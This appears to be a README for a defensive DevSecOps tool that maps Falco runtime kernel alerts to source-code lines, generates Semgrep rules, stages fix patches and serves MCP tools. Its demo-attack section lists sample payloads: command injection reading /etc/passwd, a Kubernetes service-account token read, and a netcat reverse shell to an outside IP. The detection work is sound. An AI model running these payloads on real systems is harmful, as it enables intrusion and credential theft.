

# OriginTrace — Runtime-to-Source DevSecOps Engine

> Autonomous threat correlation linking eBPF kernel syscalls directly to source code origins.

---

## Description

Modern cloud-native organizations suffer from severe **alert fatigue** and **context fragmentation**. Static Application Security Testing (SAST) tools generate thousands of theoretical warnings during pull requests without knowing if the code is ever executed in production. Conversely, runtime eBPF engines (like Falco) detect live kernel syscall attacks (`execve`, `openat`, `connect`) inside containers but provide zero visibility into the exact repository file, function, or line of code responsible for the vulnerability.

**OriginTrace** closes this feedback loop. When a runtime anomaly occurs in Kubernetes, OriginTrace intercepts the kernel event, maps the syscall signature to abstract syntax tree (AST) source code sinks, computes a mathematical **Dual-Verdict Exploit Reachability Score (0–100%)**, autonomously synthesizes a targeted Semgrep Taint YAML rule, runs the official Semgrep CLI to verify the flaw, stages an automated Git remediation PR patch, and streams forensic telemetry into Elasticsearch and native Kibana SIEM dashboards.

---

## Key Features

* **Real Compiler AST Syscall Correlation**: Walks Python AST trees on disk to map kernel-level `execve`, `openat`, and socket syscalls directly to vulnerable code sinks (e.g., `os.system`, `subprocess.Popen`, `open`) with file path and line number precision.
* **Dual-Verdict Exploit Reachability (0–100%)**: Dynamically separates live, verified exploitable vulnerabilities (`CONFIRMED_EXPLOITABLE` — P0) from dormant, dead-code static alerts (`STATIC_ONLY` — P3).
* **Autonomous Semgrep Taint Rule Synthesizer**: Generates valid Semgrep YAML rules matching the exact runtime call signature, embedding CWE IDs, OWASP Top 10 categories, and automated remediation patterns.
* **Automated Remediation PR Staging**: Generates unified diff patches replacing dangerous sinks (e.g., shell command execution) with safe alternatives (e.g., parameterized `subprocess.run` with regex validation).
* **Native Elastic Stack & Kibana Observability**: Real-time streaming into Elasticsearch with pre-configured Kibana dashboards, data views, reachability donut charts, severity histograms, and full forensic audit streams.
* **JSON-RPC Model Context Protocol (MCP) Server**: Exposes DevSecOps capabilities (`query_runtime_incidents`, `correlate_incident_to_code`, `synthesize_semgrep_rule`) as standardized tools for AI coding agents.
* **100% Real Execution (Zero Mock Data)**: Every test, AST traversal, Semgrep execution, Elasticsearch document, and patch generation runs live against real local binaries and active microservices.

---

## System Architecture

<p align="center">
  
</p>

<p align="center"><b>Figure 1: OriginTrace Architecture: From Runtime Signals to Code Fixes</b></p>

### Flow-by-Flow Architecture Explanation

1. **Stage 1 — Runtime Event Input (Falco / Falcosidekick Webhook)**: Production containers and microservices are monitored at the Linux kernel level by Falco via eBPF probes. When anomalous behavior occurs (such as an interactive `/bin/sh` process spawned inside a workload), Falco emits a structured JSON alert via HTTP webhook.
2. **Stage 2 — FastAPI Receiver**: The asynchronous FastAPI receiver (`origintrace_core/receiver.py`) intercepts incoming webhooks at `POST /webhook/falco` (and `/api/v1/telemetry/falco`), validates the payload against Pydantic schemas, and normalizes process metadata (`proc.cmdline`, `proc.pid`, `k8s.pod.name`).
3. **Stage 3 — Incident Store**: Validated security events are persisted directly to disk in `.origintrace_data/inc-<timestamp>.json`. This local JSON datastore provides instant persistence, offline triage capabilities, and independence from external databases.
4. **Stage 4 — Correlation & Reachability (Python Engine)**: The correlation engine (`origintrace_core/correlator.py`) parses the Abstract Syntax Tree (AST) of the local codebase using Python's native compiler modules. It maps kernel syscalls to exact source code files, route handlers, and line numbers (`sample_workload/app.py:Line 36`), while computing the **Dual-Verdict Exploit Reachability Score** (`CONFIRMED_EXPLOITABLE` vs `STATIC_ONLY`).
5. **Stage 5 — Semgrep Rule Synthesis**: For confirmed exploitable vulnerabilities, `origintrace_core/synthesizer.py` dynamically writes a custom Semgrep Taint YAML rule into `security/semgrep/synthesized/`, embedding CWE classifications and OWASP metadata to enforce shift-left protection.
6. **Stage 6 — Results & Remediation**: OriginTrace generates a clean unified diff patch replacing the dangerous code sink with safe parameterized alternatives (e.g. replacing `os.system` with `subprocess.run`). In accordance with enterprise DevSecOps best practices, patches are staged locally for developer review rather than blindly auto-merged.
7. **Stage 7 — Demo Verification Path**: For local verification without live Kubernetes clusters, the sample FastAPI workload (`sample_workload/app.py`) uses FastAPI's `TestClient` to execute real diagnostic requests and build Falco-shaped test telemetry on demand (`demo_attack_to_patch.py`).
8. **Stage 8 — Developer Interfaces**: Developers and AI coding assistants interact with OriginTrace through two primary interfaces:
   - **CLI Workflow (`cli/origintrace_cli.py`)**: Command-line interface for human developers to list incidents and trigger scans.
   - **MCP Server (`mcp_server/server.py`)**: JSON-RPC 2.0 stdio server providing 3 callable tools (`query_runtime_incidents`, `correlate_incident_to_code`, `synthesize_semgrep_rule`) for autonomous AI coding agents (Claude, Cursor, Antigravity).
9. **Stage 9 — Elastic Observability (Optional)**: Ingested telemetry is streamed into Logstash (`HTTP :8080`), indexed into Elasticsearch (`origintrace-events-*`), and visualized in native Kibana SIEM dashboards via Docker Compose (`docker-compose.elk.yml`).

---

## Live Kibana SIEM Dashboard

<p align="center">
  
</p>

<p align="center"><b>Figure 2: OriginTrace Live Kibana SIEM Dashboard</b></p>

### Dashboard Breakdown & Telemetry Analysis

The OriginTrace SIEM dashboard provides complete visibility into runtime threats and their code-level origins:

1. **Dual-Verdict Exploit Reachability Breakdown (Donut Chart — Top Left)**:
   * **`CONFIRMED_EXPLOITABLE` (75.37% — Green)**: High-priority vulnerabilities where both a static code sink AND a live runtime kernel syscall were confirmed. Requires immediate CI/CD blocking and automated PR patch generation.
   * **`STATIC_ONLY` (24.63% — Blue)**: Theoretical static analysis warnings that have no runtime execution trail. Categorized as low priority to eliminate developer alert fatigue.
2. **Runtime Threats by Priority / Severity (Horizontal Bar Chart — Top Right)**:
   * Visualizes the volume of alerts categorized by Falco priority levels (`CRITICAL`, `ERROR`, `WARNING`).
   * Reflects continuous real-time ingestion from the cluster.
3. **Live Kernel Syscall to Source Code Origin Audit Stream (Saved Search Table — Bottom)**:
   * **`@timestamp`**: Exact ISO UTC time of incident detection.
   * **`falco.priority`**: Threat severity rating.
   * **`falco.rule`**: Specific Falco detection policy (e.g. `Terminal Shell Spawned in Production Container`).
   * **`process.cmdline`**: Exact shell or command string executed inside the container.
   * **`origintrace.source_origin.file`**: Exact repository file location (e.g. `sample_workload/app.py`).
   * **`origintrace.source_origin.line`**: Offending code line number (e.g. `36`).
   * **`origintrace.reachability_verdict`**: Final reachability verdict (`CONFIRMED_EXPLOITABLE` vs `STATIC_ONLY`).

### Attacks Launched & Telemetry Ingested

* **Attack Vector 1 — OS Command Injection (`CRITICAL`)**:
  * *Target*: `sample_workload/app.py:Line 36` (`diagnostic_ping` function).
  * *Payload*: `sh -c ping -c 1 127.0.0.1; cat /etc/passwd`
  * *Syscall*: `execve` spawning `/bin/sh`.
  * *Verdict*: `CONFIRMED_EXPLOITABLE` (85/100).
* **Attack Vector 2 — Kubernetes Service Account Token Theft (`ERROR`)**:
  * *Target*: `app/src/main.py:Line 84` (`verify_api_token` function).
  * *Payload*: `python -c open('/var/run/secrets/kubernetes.io/serviceaccount/token')`
  * *Syscall*: `openat` targeting service account secret volumes.
  * *Verdict*: `CONFIRMED_EXPLOITABLE` (90/100).
* **Attack Vector 3 — Outbound Reverse Shell C2 Connection (`CRITICAL`)**:
  * *Target*: `sample_workload/app.py:Line 36` (`subprocess.Popen`).
  * *Payload*: `nc 198.51.100.1 4444 -e /bin/sh`
  * *Syscall*: `connect` to external IP address `198.51.100.1`.
  * *Verdict*: `CONFIRMED_EXPLOITABLE` (100/100).
* **Attack Vector 4 — Theoretical Dormant SSRF (`WARNING`)**:
  * *Target*: `security/semgrep/tests/rules_test_suite.py:Line 28` (`vulnerable_ssrf`).
  * *Payload*: Static test pattern `requests.get()`.
  * *Verdict*: `STATIC_ONLY` (25/100 — Zero runtime activity).

---

## Tech Stack

| Category | Technologies |
| :--- | :--- |
| **Runtime Threat Detection** | Linux eBPF, Sysdig Falco |
| **Static Code Analysis** | Semgrep Engine (`semgrep.exe` v1.177.0), Python AST (`ast` module) |
| **Backend & Ingestion** | Python 3.10+, FastAPI, Uvicorn, HTTPX, Requests |
| **SIEM & Observability** | Elasticsearch 8.15.0, Kibana 8.15.0, Docker Compose |
| **Agent Protocols** | JSON-RPC 2.0, Model Context Protocol (MCP) |
| **Cloud-Native Supply Chain** | Kyverno Admission Control, Trivy, Cosign, Syft, OWASP ZAP |

---

## Setup Instructions

### Prerequisites
* **Python 3.10+**
* **Docker & Docker Compose**
* **Semgrep CLI** (installed via `pip install semgrep`)

### Step 1: Clone the Repository
```bash
git clone https://github.com/ritvikindupuri/OriginTrace_DevSecOps.git
cd OriginTrace_DevSecOps
```

### Step 2: Install Python Dependencies
```bash
python -m pip install -r requirements.txt
```

### Step 3: Start Elasticsearch & Kibana Stack
```bash
docker-compose -f docker-compose.elk.yml up -d
```
Verify the services are running:
* **Elasticsearch**: [http://localhost:9200](http://localhost:9200)
* **Kibana**: [http://localhost:5601](http://localhost:5601)

### Step 4: Import Kibana Dashboards & Data Views
```bash
python kibana/import_saved_objects.py
```

### Step 5: Seed Baseline Telemetry & Start Live Streamer
```bash
python kibana/refresh_live_data.py
```

---

## How to Use the App (Step-by-Step)

### 1. Run the Full End-to-End Attack-to-Patch Pipeline
Execute the live pipeline runner:
```powershell
python demo_attack_to_patch.py
```
**What happens step-by-step**:
1. Sends a live HTTP request to the sample FastAPI workload (`/ping?host=127.0.0.1`).
2. Intercepts the process execution PID and generates a Falco runtime alert.
3. Automatically parses Python AST trees to find the offending file and line number.
4. Calculates the Dual-Verdict Reachability score (`CONFIRMED_EXPLOITABLE`).
5. Synthesizes a new Semgrep rule (`auto-origintrace-terminal-shell-spawned-in-production-container.yml`).
6. Executes `semgrep.exe` live against the codebase to confirm detection.
7. Prints the unified PR diff patch ready for developer merging.

### 2. View the Live SIEM Dashboard in Kibana
1. Open your web browser and navigate to:
   ```
   http://localhost:5601/app/dashboards#/view/origintrace-kibana-overview
   ```
2. In the top-right time filter, select **"Last 24 hours"** or **"Last 15 minutes"**.
3. Inspect the **Dual-Verdict Exploit Reachability** donut chart to see confirmed vs static threats.
4. Click on any row in the **Live Kernel Syscall Audit Stream** to view detailed forensic metadata, container names, and exact source file paths.

### 3. Launch the Background Continuous Telemetry Streamer
To stream continuous real-time kernel events into the cluster:
```powershell
python kibana/live_streamer.py
```
Switch back to Kibana and observe the live count increment in real time when you hit **Refresh**.

### 4. Interact via the Model Context Protocol (MCP) Agent Server

The OriginTrace MCP Server enables AI coding assistants (such as Claude Desktop, Cursor, and Antigravity) to act as autonomous DevSecOps agents capable of investigating production threats and fixing source code directly.

#### Step 4.1: Configure Your AI Client
Add the OriginTrace server configuration to your AI client configuration file (for Claude Desktop, edit `%APPDATA%\Claude\claude_desktop_config.json` on Windows or `~/Library/Application Support/Claude/claude_desktop_config.json` on macOS):

```json
{
  "mcpServers": {
    "origintrace": {
      "command": "python",
      "args": ["-m", "mcp_server.server"],
      "cwd": "C:/Users/ritvi/.gemini/antigravity/scratch/aegisloop-devsecops"
    }
  }
}
```

#### Step 4.2: Start or Test the Server Standalone
You can also run the server directly via standard I/O:
```powershell
python mcp_server/server.py
```

#### Step 4.3: Exposed MCP Tools
* `query_runtime_incidents`: Queries recent runtime Falco eBPF security alerts filtered by priority level.
* `correlate_incident_to_code`: Traces incident metadata to source code AST file paths, functions, and line numbers.
* `synthesize_semgrep_rule`: Synthesizes custom Semgrep YAML rules to prevent regression in CI/CD.

#### Step 4.4: Example Prompts to Provide to Your AI Agent

Once connected, you can chat with your AI assistant using natural language prompts:

* **Prompt 1 (Threat Discovery)**:
  > *"Are there any active CRITICAL or ERROR runtime security incidents reported by Falco in our production cluster? List their incident IDs and commands."*
  * **What the AI does**: Calls `query_runtime_incidents(priority="CRITICAL")`, inspects the incident list, and summarizes the active threats.

* **Prompt 2 (Root Cause & AST Correlation)**:
  > *"Investigate incident `inc-1789534499991`. Correlate it to our source code and tell me which function and line number executed the dangerous sink."*
  * **What the AI does**: Calls `correlate_incident_to_code(incident_id="inc-1789534499991")`, parses the Python AST on disk, and points to `sample_workload/app.py:Line 36` in `diagnostic_ping()`.

* **Prompt 3 (Autonomous Hardening & Rule Synthesis)**:
  > *"Synthesize a Semgrep rule to block this command injection pattern, run a scan against the repository, and generate a secure code patch using subprocess.run with regex validation."*
  * **What the AI does**: Calls `synthesize_semgrep_rule(incident_id="inc-1789534499991")`, writes `auto-origintrace-terminal-shell-spawned-in-production-container.yml`, and produces the unified remediation diff.

---

## Technical Documentation

For the complete in-depth architectural breakdown, compiler AST visitor implementations, mathematical reachability formulations, and MCP schemas, read the **[Comprehensive Technical Documentation](docs/TECHNICAL_DOCUMENTATION.md)**.
